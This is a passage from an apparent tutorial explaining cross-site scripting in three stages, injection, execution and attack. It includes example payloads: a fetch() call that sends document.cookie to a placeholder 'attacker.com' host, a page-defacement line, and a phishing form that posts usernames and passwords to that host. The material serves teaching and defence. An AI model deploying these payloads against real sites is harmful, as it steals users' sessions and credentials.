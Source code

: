 ### **1. Injection**  
The attacker injects **malicious input** into a vulnerable part of the web application, such as a form, URL parameter, or comment section. This input is designed to be processed as executable code rather than plain text.

- Example injection in a form field:  
  ```html
  <script>alert('XSS Attack');</script>
  ```

### **2. Execution**  
The browser executes the injected script when the user accesses the page containing the malicious input. Depending on the type of XSS (Stored, Reflected, or DOM-Based), this could happen automatically (Stored XSS) or require a user to click a malicious link (Reflected XSS).

- Example vulnerable output:  
  ```html
  <p>Search results for: <script>alert('XSS Attack');</script></p>
  ```
  
The browser renders and runs the script, displaying an alert box in this example.

### **3. Attack**  
Once executed, the script can perform harmful actions such as:
- **Stealing cookies**:  
  ```javascript
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
  ```

  `document.cookie` is used to get the cookies of the user which is stored in the browser.

- **Manipulating the page (DOM)**:  
  ```javascript
  document.body.innerHTML = '<h1>This site has been hacked!</h1>';
  ```
  `innerHTML` is used to get the innerHTML of the body of the page. When the page is loaded, the script is executed and the innerHTML of the body is changed to `<h1>This site has been hacked!</h1>`.

- **Tricking users with phishing forms**:
  ```html
  <form action="https://attacker.com/login" method="POST">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <button type="submit">Log In</button>
  </form>
  ```

  The form is submitted to the attacker's server and the username and password are stolen. User is not aware that their credentials are being stolen as the form is submitted to the attacker's server and the user is redirected to the attacker's website.

## **Types of XSS Attacks**
